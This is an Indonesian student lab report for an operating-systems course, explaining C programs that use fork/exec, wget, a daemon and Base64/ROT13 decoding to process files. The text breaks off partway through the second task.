






# Praktikum Sistem Operasi Modul 2 - IT17

## Anggota Kelompok

| NRP        | Nama                            |
|:----------:|:-------------------------------:|
| 5027241006 | Nabilah Anindya Paramesti       |
| 5027241092 | Muhammad Khairul Yahya          |
| 5027241002 | Balqis Sani Sabillah            |


## Daftar Isi

- [Soal 1](#soal-1)
- [Soal 2](#soal-2)
- [Soal 3](#soal-3)
- [Soal 4](#soal-4)

# Soal 1 #
*Oleh : Balqis Sani Sabillah*

## Deskripsi Soal ## 
Kamu terbangun secara tiba-tiba di suatu lokasi yang tidak diketahui, saat kamu melihat sekitar yang terlihat hanyalah kegelapan dan sebuah pintu dengan dua mata berwarna yang melihatmu dari lubang pintu tersebut.
Ia merupakan naga bernama Cyrus yang menjaga pintu tersebut dan kamu harus meng-input password yang benar untuk masuk. Karena tidak mungkin untuk menebak password, Ia memberikanmu sebuah clue Clues.zip. Untungnya, kamu merupakan Directory Lister yang jago sehingga clue ini dapat berubah menjadi sebuah password. 
[Author: Fico/ purofuro]

### Tipe soal A ###

**A. Downloading the Clues**

Karena kamu telah diberikan sebuah link Clues oleh Cyrus, kamu membuat file bernama `action.c` yang dimana kalau dijalankan seperti biasa tanpa argumen tambahan akan mendownload dan meng-unzip file tersebut secara langsung. Saat kamu melihat isi dari Clues tersebut, isinya berupa 4 folder yakni ClueA - ClueD dan di masing-masing folder tersebut terdapat .txt files dan isinya masih tidak jelas, mungkin beberapa kata di dalam .txt file yang dapat dicari di inventory website? (Note: inventory bersifat untuk seru-seruan saja).  Jangan lupa untuk menghapus Clues.zip setelah diekstrak dan buatlah apabila folder Clues sudah ada, maka command tersebut tidak akan mendownload `Clues.zip` lagi apabila dijalankan.

### JAWABAN ###

```
void run_command(char *argv[]) {
    pid_t pid = fork();
    if (pid == 0) {
        execvp(argv[0], argv);
        perror("exec failed");
        exit(EXIT_FAILURE);
    } else {
        wait(NULL);
    }
}

```
### Keterangan ###
### `pid_t pid = fork();` ###
- `fork()` = digunakan untuk membuat proses anak (child process).
- pid akan berisi: 0 di proses anak, >0 (PID anak) di proses induk.
### `if (pid == 0)` ###
- Artinya kita sekarang berada di proses anak.
- Di sini, kita jalankan perintah terminal pakai `execvp():`
### `execvp(argv[0], argv);` ###
- argv[0] → nama program (misalnya "wget").
- argv → daftar argumen, termasuk argv[0].
### `perror("exec failed");` ###
- Kalau `execvp()` gagal , akan mencetak pesan error ke terminal.
### `exit(EXIT_FAILURE);` ###
- Kalau gagal `exec`, proses anak keluar dengan status gagal `(EXIT_FAILURE)`.


```
void download_and_extract() {
    if (access("Clues", F_OK) == 0) {
        printf("Clues folder already exists. Skipping download.\n");
        return;
    }

    printf("Downloading Clues.zip...\n");
    char *wget_args[] = {"wget", "-O", "Clues.zip", "https://drive.usercontent.google.com/u/0/uc?id=1xFn1OBJUuSdnApDseEczKhtNzyGekauK&export=downloadL/Clues.zip", NULL}; 
    run_command(wget_args);

    printf("Unzipping Clues.zip...\n");
    char *unzip_args[] = {"unzip", "-o", "Clues.zip", NULL};
    run_command(unzip_args);

    printf("Deleting Clues.zip...\n");
    remove("Clues.zip");
}
```

 ### Keterangan ###
 ### `if (access("Clues", F_OK) == 0)`### 
 - Mengecek apakah folder `Clues` sudah ada, `F_OK` : cek keberadaan file.
 - `printf("Clues folder already exists. Skipping download.\n");` = jika file Clues sudah terdownload maka akan keluar kalimat ini
 ### `char *wget_args[] = {"wget", "-O", "Clues.zip", "https://...", NULL}; run_command(wget_args);` ### 
 - download file dari link dan simpan sebagai Clues.zip.
 - Dipanggil dengan `run_command()`, yang akan menjalankan perintah ini di terminal.
### `char *unzip_args[] = {"unzip", "-o", "Clues.zip", NULL}; run_command(unzip_args);` ###
- `-o` artinya: overwrite jika file sudah ada.
- Akan mengekstrak isi Clues.zip (berupa folder Clues berisi petunjuk/teks).
### `remove("Clues.zip");` ###
- Menghapus file `Clues.zip` setelah selesai diekstrak. 


## Tipe Soal B ## 
**B. Filtering the Files**

Karena kebanyakan dari file tersebut berawal dengan 1 huruf atau angka, kamu pun mencoba untuk memindahkan file-file yang hanya dinamakan dengan 1 huruf dan 1 angka tanpa special character kedalam folder bernama Filtered. Kamu tidak suka kalau terdapat banyak clue yang tidak berguna jadi disaat melakukan filtering, file yang tidak terfilter dihapus. Karena kamu tidak ingin membuat file kode lagi untuk filtering, maka kamu menggunakan file sebelumnya untuk filtering file-file tadi dengan menambahkan argumen saat ingin menjalankan action.c

Contoh penggunaan:
puro@furo:~$ ./action -m Filter

### Jawaban ###

```
int is_valid_file(const char *name) {
    return strlen(name) == 5 && isalnum(name[0]) && name[1] == '.' && name[2] == 't' && name[3] == 'x' && name[4] == 't'; }`
```
### Keterangan ###
- ### `int is_valid_file(const char *name) { return strlen(name) == 5 && isalnum(name[0]) && name[1] == '.' && name[2] == 't' && name[3] == 'x' && n [4] == 't'; }` ###
- Tujuan: Mengecek apakah nama file sesuai format seperti `A.txt`, `1.txt`, `x.txt`, dll.
- `strlen(name)` == 5 → Panjang nama harus 5 karakter.
- `isalnum(name[0])` = Karakter pertama harus angka atau huruf.
- `name[1] == '.' && name[2] == 't' && name[3] == 'x' && name[4] == 't'` =  Sisa karakter harus persis .txt.

```
int is_single_char_filename(const char *name) {
    return strlen(name) == 5 &&
           ((isdigit(name[0]) || isalpha(name[0])) && isalnum(name[0])) &&
           name[1] == '.' && strcmp(name + 1, ".txt") == 0;
}
```
### Keterangan ###
- ### `int is_single_char_filename(const char *name) { return strlen(name) == 5 && ((isdigit(name[0]) || isalpha(name[0])) && isalnum(name[0])) && name[1] == '.' && strcmp(name + 1, ".txt") == 0; }` ### 
- `strlen(name)` == 5 → Sama, panjang harus 5.
- `isdigit(name[0]) || isalpha(name[0])` → Karakter pertama boleh huruf atau angka.
- `isalnum(name[0])` → Karakter pertama juga harus alfanumerik (sebenarnya ini redundant).
- `strcmp(name + 1, ".txt")` == 0 → Mengecek karakter dari posisi ke-1 sampai akhir adalah .txt.
- Jadi, intinya dia mengecek apakah nama file itu seperti: a.txt, 9.txt, Z.txt, dll — satu karakter, lalu .txt.


```
void filter_files() {
    mkdir("Filtered", 0755);
    DIR *dir = opendir("Clues");
    if (!dir) {
        perror("opendir Clues");
        return;
    }

    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type != DT_DIR || strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;

        char subdir[MAX_PATH];
        snprintf(subdir, MAX_PATH, "Clues/%s", entry->d_name);
        DIR *sub = opendir(subdir);
        if (!sub) continue;

        struct dirent *file;
        while ((file = readdir(sub)) != NULL) {
            if (is_single_char_filename(file->d_name)) {
                char src[MAX_PATH], dst[MAX_PATH];
                snprintf(src, MAX_PATH, "%s/%s", subdir, file->d_name);
                snprintf(dst, MAX_PATH, "Filtered/%s", file->d_name);
                rename(src, dst);
            } else if (strcmp(file->d_name, ".") != 0 && strcmp(file->d_name, "..") != 0) {
                char path[MAX_PATH];
                snprintf(path, MAX_PATH, "%s/%s", subdir, file->d_name);
                remove(path);
            }
        }
        closedir(sub);
    }
    closedir(dir);
}

int is_digit_filename(const char *name) {
    return isdigit(name[0]);
}

```

### Keterangan ###
### `mkdir("Filtered", 0755);` ###
- Ini membuat folder bernama Filtered.
- 0755 adalah permission Unix:
- 7 (rwx): owner bisa baca, tulis, eksekusi
- 5 (r-x): grup bisa baca dan eksekusi
- 5 (r-x): others bisa baca dan eksekusi
- Jadi: folder ini bisa diakses dan dibaca orang lain juga.

### `DIR *dir = opendir("Clues");` ###
- Membuka folder Clues/ → agar kita bisa membaca isinya.
- DIR *dir adalah pointer ke struktur direktori.

### `if (!dir) { perror("opendir Clues"); return; }` ###
- Kalau folder Clues/ tidak bisa dibuka (misalnya tidak ada), tampilkan error dengan perror() dan keluar dari fungsi.

 ### `while ((entry = readdir(dir)) != NULL) { ... }` ###
- Ini loop untuk membaca isi folder Clues/.
- entry akan berisi satu per satu entri (file atau folder) yang ada di Clues/.

### `if (entry->d_type != DT_DIR || strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;` ###
- Lewati jika:
- Entitas tersebut bukan folder (d_type != DT_DIR)
- Atau nama foldernya adalah . atau .. (folder khusus sistem)
- Jadi hanya proses subfolder-subfolder valid di dalam Clues/.

### `char subdir[MAX_PATH]; snprintf(subdir, MAX_PATH, "Clues/%s", entry->d_name);` ###
- Membuat path lengkap ke subfolder.

### `DIR *sub = opendir(subdir); if (!sub) continue;` ###
- Buka subfolder-nya.
- Kalau gagal dibuka, skip dan lanjut ke folder berikutnya.

### `while ((file = readdir(sub)) != NULL) { ... }` ###
- Loop untuk membaca isi subfolder yang sedang dibuka.

### `if (is_single_char_filename(file->d_name)) { ... }` ### 
- Cek apakah file sesuai format X.txt atau 3.txt (total 5 karakter).
- Buat path asal (src) dan path tujuan (dst)
- Lalu rename() untuk memindahkan file dari src ke dst.

### `else if (strcmp(file->d_name, ".") != 0 && strcmp(file->d_name, "..") != 0) { ... }` ### 
Kalau file tidak sesuai format, dan bukan . atau .., maka:
- Buat path lengkap ke file
- Hapus file tersebut.

### `closedir(sub); dan closedir(dir);` ###
- Setelah selesai baca subfolder, tutup dengan closedir(sub).
- Setelah semua subfolder diproses, tutup juga folder utama dengan closedir(dir).

### `int is_single_char_filename(const char *name) { return strlen(name) == 5 && ((isdigit(name[0]) || isalpha(name[0])) && isalnum(name[0])) && name[1] == '.' && strcmp(name + 1, ".txt") == 0; }` ###
- Panjang nama = 5 (contoh: A.txt, 3.txt)
- Karakter pertama adalah huruf/angka (isalpha() atau isdigit())
- 4 karakter terakhir adalah .txt

## Tipe Soal C ## 

**C. Combine the File Content**

Di setiap file .txt yang telah difilter terdapat satu huruf dan agar terdapat progress, Cyrus memberikan clue tambahan untuk meletakan/redirect isi dari setiap .txt file tersebut kedalam satu file yaitu Combined.txt dengan menggunakan FILE pointer. Tetapi, terdapat urutan khusus saat redirect isi dari .txt tersebut, yaitu urutannya bergantian dari .txt dengan nama angka lalu huruf lalu angka lagi lalu huruf lagi. Lalu semua file .txt sebelumnya dihapus. Seperti halnya tadi, agar efisien kamu ingin menjalankan action.c dengan argumen tambahan.

Contoh urutan:
1.txt
a.txt
2.txt
b.txt
dst..

		Contoh penggunaan:
		puro@furo:~$ ./action -m Combine

### Jawaban ###

```
void combine_files() {
    FILE *out = fopen("Combined.txt", "w");
    if (!out) {
        perror("fopen Combined.txt");
        return;
    }

    struct dirent *entry;
    DIR *dir = opendir("Filtered");
    if (!dir) {
        perror("opendir Filtered");
        fclose(out);
        return;
    }

    char *filenames[100];
    int count = 0;

    while ((entry = readdir(dir)) != NULL) {
        if (is_single_char_filename(entry->d_name)) {
            filenames[count] = strdup(entry->d_name);
            count++;
        }
    }
    closedir(dir);

    // Sort filenames: angka, file, angka, file
    for (int i = 0; i < count - 1; i++) {
        for (int j = i + 1; j < count; j++) {
            if (filenames[i][0] > filenames[j][0]) {
                char *tmp = filenames[i];
                filenames[i] = filenames[j];
                filenames[j] = tmp;
            }
        }
    }

    int use_digit = 1;
    int written = 0;
    while (written < count) {
        for (int i = 0; i < count; i++) {
            if ((use_digit && isdigit(filenames[i][0])) || (!use_digit && isalpha(filenames[i][0]))) {
                char path[MAX_PATH];
                snprintf(path, MAX_PATH, "Filtered/%s", filenames[i]);
                FILE *in = fopen(path, "r");
                if (in) {
                    char c;
                    while ((c = fgetc(in)) != EOF)
                        fputc(c, out);
                    fclose(in);
                    remove(path);
                    written++;
                    use_digit = !use_digit;
                    break;
                }
            }
        }
    }

    for (int i = 0; i < count; i++)
        free(filenames[i]);
    fclose(out);
}

```
### Keterangan ### 
### `FILE *out = fopen("Combined.txt", "w"); if (!out) { perror("fopen Combined.txt"); return; }` ###
- Buat file Combined.txt untuk ditulis ("w" = write).
- Kalau gagal (misalnya permission error), tampilkan pesan error dan keluar dari fungsi.

### `DIR *dir = opendir("Filtered"); if (!dir) { perror("opendir Filtered"); fclose(out); return; }` ###
- Buka folder Filtered/ untuk dibaca isinya.
- Kalau gagal, tampilkan error dan keluar (dengan menutup file out dulu).

### `char *filenames[100]; int count = 0; while ((entry = readdir(dir)) != NULL) { if (is_single_char_filename(entry->d_name)) { filenames[count] = strdup(entry->d_name); count++; } }` ### 
- Loop ini mengumpulkan semua file *.txt yang valid (pakai is_single_char_filename()).
- Disimpan ke array filenames[].
- Fungsi strdup() akan menyimpan salinan string nama file.

### `for (int i = 0; i < count - 1; i++) { for (int j = i + 1; j < count; j++) { if (filenames[i][0] > filenames[j][0]) { char *tmp = filenames[i]; filenames[i] = filenames[j]; filenames[j] = tmp; } } }` ### 
- ` for (int i = 0; i < count - 1; i++) ` = Loop luar: Ambil 1 file (anggap sebagai file "sekarang").
-  `for (int j = i + 1; j < count; j++)` = Loop dalam: Bandingkan file sekarang dengan semua file setelahnya.
-    `if (filenames[i][0] > filenames[j][0]) ` = Kalau huruf/angka pertama file i lebih besar dari file j (misalnya 'c' > 'a', atau '2' > '1') 
- ` char *tmp = filenames[i]; filenames[i] = filenames[j]; filenames[j] = tmp; ` = Tukar posisi mereka supaya file yang lebih kecil ada di depan.

### ` int use_digit = 1; int written = 0; while (written < count) { for (int i = 0; i < count; i++) { if ((use_digit && isdigit(filenames[i][0])) || (!use_digit && isalpha(filenames[i][0]))) { } } }` ### 
- `use_digit = 1:` mulai dengan mencari file yang diawali angka (0-9)
- Setelah dapat file yang sesuai:
- Buka file → salin isinya ke `Combined.txt`
- Hapus file asal dari `Filtered/`
- Ganti `use_digit = !use_digit` → agar selanjutnya cari huruf
### `char path[MAX_PATH]; snprintf(path, MAX_PATH, "Filtered/%s", filenames[i]); FILE *in = fopen(path, "r"); if (in) { char c; while ((c = fgetc(in)) != EOF) fputc(c, out); fclose(in); remove(path); written++; use_digit = !use_digit; break; } `### 
- Bangun path ke file (Filtered/1.txt, dll).
- Buka file input.
- Salin karakter demi karakter ke Combined.txt.
- Setelah itu: Tutup file , Hapus file aslinya (remove()), Tambah hitungan written, Ganti giliran (dari angka → huruf, atau sebaliknya)
### `for (int i = 0; i < count; i++) free(filenames[i]); fclose(out); ` ###
- Setelah semua selesai:
- `free()` setiap nama file yang disimpan dengan `strdup()`
- Tutup file `Combined.txt`
 
## Tipe Soal D ## 
**D. Decode the file** 

Karena isi Combined.txt merupakan string yang random, kamu 
memiliki ide untuk menggunakan Rot13 untuk decode string tersebut dan meletakan hasil dari yang telah di-decode tadi kedalam file bernama Decoded.txt. Jalankan file action.c dengan argumen tambahan untuk proses decoding ini. 

Contoh penggunaan:
puro@furo:~$ ./action -m Decode

```
void decode_rot13() {
    FILE *in = fopen("Combined.txt", "r");
    FILE *out = fopen("Decoded.txt", "w");

    if (!in || !out) {
        perror("fopen Combined.txt / Decoded.txt");
        return;
    }

    char c;
    while ((c = fgetc(in)) != EOF) {
        if ('a' <= c && c <= 'z')
            c = (c - 'a' + 13) % 26 + 'a';
        else if ('A' <= c && c <= 'Z')
            c = (c - 'A' + 13) % 26 + 'A';
        fputc(c, out);
    }

    fclose(in);
    fclose(out);
}

### Jawaban ###

```
### Keterangan ###
### `FILE *in = fopen("Combined.txt", "r"); FILE *out = fopen("Decoded.txt", "w");` ###
- Buka file input (`Combined.txt`) untuk dibaca ("r")
- Buka file output (`Decoded.txt`) untuk ditulis ("w")
### `if (!in || !out) { perror("fopen Combined.txt / Decoded.txt"); return; }` ###
- Kalau salah satu file gagal dibuka (mungkin filenya nggak ada), tampilkan pesan error lalu keluar dari fungsi.
### `char c; while ((c = fgetc(in)) != EOF)` ### 
- Baca satu karakter dari file input, selama belum mencapai EOF (End of File).
### `    if ('a' <= c && c <= 'z') c = (c - 'a' + 13) % 26 + 'a'; ` ###

- kalau karakter c adalah huruf kecil (a sampai z), geser 13 posisi.
Contoh: 'b' → 'o', 'z' → 'm'.
- Cara kerjanya:
- 'c' - 'a': ubah huruf ke angka 0–25
- +13 % 26: geser 13 posisi (dan wrap ke awal kalau lewat z)
- + 'a': ubah angka balik jadi huruf

### `    else if ('A' <= c && c <= 'Z') c = (c - 'A' + 13) % 26 + 'A'; ` ###
- Sama kayak sebelumnya, tapi untuk huruf besar (A sampai Z).

## Tipe Soal E ##
**E. Password Check**

Karena kamu sudah mendapatkan password tersebut, kamu mencoba untuk mengecek apakah password yang sudah kamu dapatkan itu benar atau tidak dengan cara di-input ke lokasi tadi.
Notes: Berikan error handling yakni memberi tahu command yang benar jika salah argumen.

### Jawaban ###

```
void show_usage() {
    printf("Usage:\n");
    printf("./action               --> Download dan unzip Clues.zip\n");
    printf("./action -m Filter     --> Filter files into Filtered/\n");
    printf("./action -m Combine    --> Combine contents into Combined.txt\n");
    printf("./action -m Decode     --> Decode Combined.txt into Decoded.txt using Rot13\n");
}

int main(int argc, char *argv[]) {
    if (argc == 1) {
        download_and_extract();
    } else if (argc == 3 && strcmp(argv[1], "-m") == 0) {
        if (strcmp(argv[2], "Filter") == 0)
            filter_files();
        else if (strcmp(argv[2], "Combine") == 0)
            combine_files();
        else if (strcmp(argv[2], "Decode") == 0)
            decode_rot13();
        else
            show_usage();
    } else {
        show_usage();
    }
    return 0;
}
```
### Keterangan ### 
- `argc` = jumlah argumen dari command line
- `argv` = array string berisi argumen tersebut
- `./action -m Combine` = 
- argc = 3
- argv[0] = "./action"
- argv[1] = "-m"
- argv[2] = "Combine"
### `if (argc == 1) { download_and_extract(); }` ###
- kalau nggak ada argumen tambahan `(cuma ./action)` , maka:
- Jalankan fungsi `download_and_extract()`
- Fungsinya: download file `Clues.zip` dan ekstrak ke folder `Clues/`
### `else if (argc == 3 && strcmp(argv[1], "-m") == 0) ` ###
-  Kalau ada 3 argumen dan argumen kedua adalah -m, maka:
- Cek isi argumen ketiga:
- `   if (strcmp(argv[2], "Filter") == 0) filter_files(); ` = Kalau `Filter` → jalanin `filter_files()`
- `   else if (strcmp(argv[2], "Combine") == 0) combine_files(); ` = Kalau `Combine` → jalanin `combine_files()`
- `   else if (strcmp(argv[2], "Decode") == 0) decode_rot13();` = Kalau `Decode` → jalanin `decode_rot13()`
- `     else show_usage(); ` = Kalau gak cocok salah satu, tampilin instruksi bantuan.
- `  else { show_usage(); }` = Kalau argumennya aneh-aneh atau jumlahnya salah, tampilkan `show_usage()` juga.

## Kendala

## Dokumentasi

### Soal A


### Soal B


### Soal C


### Soal D


### Soal E


Error Check :


# Soal 2
_**Oleh : Nabilah Anindya Paramesti**_

## Deskripsi Soal
Pada suatu hari, Kanade ingin membuat sebuah musik baru beserta dengan anggota grup musik lainnya, yaitu Mizuki Akiyama, Mafuyu Asahina, dan Ena Shinonome. Namun sialnya, komputer Kanade terkena sebuah virus yang tidak diketahui. Setelah dianalisis oleh Kanade sendiri, ternyata virus ini bukanlah sebuah trojan, ransomware, maupun tipe virus berbahaya lainnya, melainkan hanya sebuah malware biasa yang hanya bisa membuat sebuah perangkat menjadi lebih lambat dari biasanya.

## Jawaban
### Soal Tipe A
> Sebagai teman yang baik, Mafuyu merekomendasikan Kanade untuk mendownload dan unzip sebuah starter kit berisi file - file acak (sudah termasuk virus) melalui [link berikut](https://drive.google.com/file/d/1_5GxIGfQr3mNKuavJbte_AoRkEQLXSKS/view) agar dapat membantu Kanade dalam mengidentifikasi virus - virus yang akan datang. Jangan lupa untuk menghapus file zip asli setelah melakukan unzip.

### Penyelesaian A
Pada soal ini diminta untuk melakukan proses download dan ekstraksi file starter_kit.zip apabila folder starter_kit belum ada. Setelah proses ekstraksi selesai, file zip harus dihapus.

Proses pengecekan dan pengunduhan dilakukan melalui fungsi `ensure_starter_kit_downloaded()` yang memeriksa apakah direktori starter_kit sudah ada, dan jika belum, maka dilakukan pengunduhan file zip, dilanjutkan dengan ekstraksi dan penghapusan file zip.

```bash
void ensure_starter_kit_downloaded() {
    struct stat st;
    if (stat(STARTER_KIT_FOLDER, &st) == -1) {
        pid_t pid = fork();
        if (pid == 0) {
            int nullfd = open("/dev/null", O_WRONLY);
            dup2(nullfd, STDOUT_FILENO);
            dup2(nullfd, STDERR_FILENO);
            close(nullfd);
            execlp("wget", "wget", DOWNLOAD_LINK, "-O", ZIP_FILE, NULL);
            exit(1);
        } else {
            wait(NULL);
            pid = fork();
            if (pid == 0) {
                int nullfd = open("/dev/null", O_WRONLY);
                dup2(nullfd, STDOUT_FILENO);
                dup2(nullfd, STDERR_FILENO);
                close(nullfd);
                execlp("unzip", "unzip", ZIP_FILE, "-d", STARTER_KIT_FOLDER, NULL);
                exit(1);
            } else {
                wait(NULL);
                remove(ZIP_FILE);
            }
        }
    }
}
```

Keterangan :
- `struct stat st;` = Mendeklarasikan variabel `st` bertipe `struct stat`. Struct ini digunakan untuk menyimpan informasi apakah file tersebut ada, apakah berupa direktori, dsb.
- `stat(STARTER_KIT_FOLDER, &st)` = Mengecek apakah folder starter_kit ada. Jika tidak ada `(return -1)`, maka akan masuk ke blok `if`.
- `pid_t pid = fork();` = fork() membuat proses anak (child process). Proses ini akan digunakan untuk menjalankan perintah download ZIP. Jika `pid == 0`, berarti ini adalah proses anak. Maka proses anak akan menjalankan wget
- Output dari proses wget diarahkan ke `/dev/null` agar tidak tampil di layar.
- Setelah proses unduhan selesai `(wait(NULL))`, dilakukan `fork()` kembali untuk menjalankan unzip terhadap file zip.
- Proses unzip juga diarahkan outputnya ke `/dev/null`.
- Setelah selesai, file `starter_kit.zip` dihapus menggunakan `remove()` agar tidak tersisa di sistem.

🤹 Alur Program `ensure_starter_kit_downloaded()`
```bash
if (stat(STARTER_KIT_FOLDER, &st) == -1) {
    pid_t pid = fork();
    if (pid == 0) {
        // CHILD: Download starter_kit.zip via wget
        execlp("wget", ...);
        exit(1);  // <- Kalau wget gagal
    } else {
        // PARENT: Tunggu proses anak selesai download
        wait(NULL);

        // Fork lagi untuk unzip
        pid = fork();
        if (pid == 0) {
            // CHILD: Ekstrak file zip
            execlp("unzip", ...);
            exit(1);  // <- Kalau unzip gagal
        } else {
            // PARENT: Tunggu unzip selesai, lalu hapus file zip
            wait(NULL);
            remove(ZIP_FILE);
        }
    }
}
```

---

### Soal Tipe B
> Setelah mengunduh starter kit, Mafuyu menyadari bahwa nama-nama file di dalam folder `starter_kit` dienkripsi menggunakan algoritma Base64. Oleh karena itu, diminta untuk membuat sebuah proses daemon yang bertugas untuk mendekripsi nama-nama file tersebut dan memindahkannya ke folder `quarantine`. Setiap aktivitas perlu dicatat ke dalam file log. Perintah yang digunakan untuk menjalankan proses ini adalah:  
>  
> `./starterkit --decrypt`

### Penyelesaian B

Setelah folder `starter_kit` berhasil diekstraksi, program akan menjalankan sebuah **proses daemon** yang bertanggung jawab untuk **menyediakan proses latar belakang**. Daemon ini tidak secara langsung melakukan dekripsi, tetapi ia **menjadi proses aktif** yang dapat dikendalikan, misalnya untuk dimatikan (`--shutdown`). Proses pemindahan dan dekripsi file terjadi saat menjalankan perintah `--quarantine`.

### **Fungsi `decrypt_daemon()`**
```c
pid_t pid = fork();
```
- Membuat proses baru menggunakan `fork()`.
- `fork()` akan menghasilkan dua proses: **proses induk (parent)** dan **proses anak (child)**.

```c
if (pid > 0) {
    exit(0);
}
```
- Jika proses yang sedang berjalan adalah parent, maka ia akan **langsung keluar** dari fungsi.
- Hal ini dilakukan agar **hanya proses anak** yang melanjutkan sebagai daemon.

```c
else if (pid == 0) {
    setsid();
```
- Jika ini adalah proses anak, maka ia akan menjadi session leader dengan `setsid()`.
- Artinya, proses ini akan benar-benar terpisah dari terminal — menjadi **proses daemon**.

```c
char msg[128];
snprintf(msg, sizeof(msg), "Successfully started decryption process with PID %d.", getpid());
write_log(msg);
```
- Menuliskan pesan log ke file `activity.log`, menunjukkan bahwa proses dekripsi (daemon) telah dimulai.

```c
chdir("/");
fclose(stdin);
fclose(stdout);
fclose(stderr);
```
- Mengganti direktori kerja ke root (`/`), dan menutup tiga file descriptor standar (input, output, error).
- Ini adalah **prosedur umum** dalam pembuatan daemon agar benar-benar berjalan di background dan tidak bergantung pada terminal.

```c
mkdir(QUARANTINE_FOLDER, 0755);
```
- Membuat folder `quarantine` jika belum tersedia.
- Folder ini akan menjadi lokasi file-file yang sudah berhasil didekripsi.

```c
while (1) {
    sleep(10);
}
```
- Loop tanpa akhir (`while(1)`) digunakan agar proses daemon tetap berjalan.
- `sleep(10)` digunakan agar proses ini tidak membebani CPU — ia akan “tidur” selama 10 detik di setiap siklusnya.
- **Proses ini tidak melakukan dekripsi langsung**, tetapi bertugas menjaga agar daemon aktif.  
  Dekripsi dan pemindahan file dilakukan ketika perintah `--quarantine` dijalankan.

### Kesimpulan
Fungsi `decrypt_daemon()` membuat program berjalan sebagai proses **daemon (background service)** yang:
- Terpisah dari terminal
- Tidak langsung melakukan pemrosesan
- Tetap aktif dan menunggu instruksi lain
- Mencatat informasi ke dalam log
- Membuat folder karantina jika belum ada

---

### Soal Tipe C
> Karena Kanade adalah orang yang sangat pemalas (kecuali jika membuat musik), maka tambahkan juga fitur untuk memindahkan file yang ada pada directory starter kit ke directory karantina, dan begitu juga sebaliknya.

Penggunaan:

- ./starterkit --quarantine (pindahkan file dari directory starter kit ke karantina)
- ./starterkit --return (pindahkan file dari directory karantina ke starter kit)

### Penyelesaian C 
Pada bagian ini, program harus dapat menangani dua perintah:

- `--quarantine`: memindahkan file dari `starter_kit` ke folder `quarantine`, dengan mendekripsi nama file jika terenkripsi menggunakan Base64.
- `--return`: memindahkan file dari `quarantine` kembali ke `starter_kit` tanpa proses dekripsi.

---

### Perintah: `--quarantine`

Saat pengguna menjalankan perintah `--quarantine`, program akan memanggil fungsi:
```c
move_file(STARTER_KIT_FOLDER, QUARANTINE_FOLDER, 1, "moved to quarantine");
```
Artinya:
- `src_dir`: folder asal (`starter_kit`)
- `dst_dir`: folder tujuan (`quarantine`)
- `decode_name`: 1 (artinya dekripsi nama file dilakukan)
- `mode`: untuk keperluan logging

#### Penjelasan Per Baris Kode pada Fungsi `move_file()` (Bagian Quarantine)
```c
DIR *dir = opendir(src_dir);
```
Membuka folder `starter_kit`.

```c
if (!dir) return;
```
Jika folder tidak bisa dibuka, fungsi langsung keluar.

```c
struct dirent *entry;
```
Untuk menyimpan informasi setiap file.

```c
while ((entry = readdir(dir)) != NULL) {
```
Loop membaca isi direktori satu per satu.

```c
if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;
```
Lewati entri direktori spesial `.` dan `..`.

```c
char src_path[512], dst_path[512];
snprintf(src_path, sizeof(src_path), "%s/%s", src_dir, entry->d_name);
```
Membentuk path lengkap file dari direktori asal.

```c
if (!is_regular_file(src_path)) continue;
```
Hanya proses file biasa, bukan direktori.

```c
const char *final_name = entry->d_name;
char *decoded = NULL;
```
Persiapkan nama file akhir. Jika bisa didekripsi, variabel `final_name` akan diganti.

```c
if (decode_name) {
    if (is_base64_string(entry->d_name)) {
        size_t out_len;
        decoded = decode_base64(entry->d_name, &out_len);
```
Jika `decode_name == 1` dan nama file adalah string Base64, maka dilakukan proses decode.

```c
        if (decoded) {
            int len = strlen(decoded);
            while (len > 0 && (decoded[len - 1] == '\n' || decoded[len - 1] == '\r' || decoded[len - 1] == ' ' || decoded[len - 1] == '\t')) {
                decoded[--len] = '\0';
            }
```
Membersihkan whitespace dari hasil dekripsi.

```c
            if (is_printable_string(decoded)) {
                final_name = decoded;
            } else {
                free(decoded);
                decoded = NULL;
            }
        }
    }
}
```
Jika hasil decode bisa dibaca, gunakan sebagai nama final.

```c
snprintf(dst_path, sizeof(dst_path), "%s/%s", dst_dir, final_name);
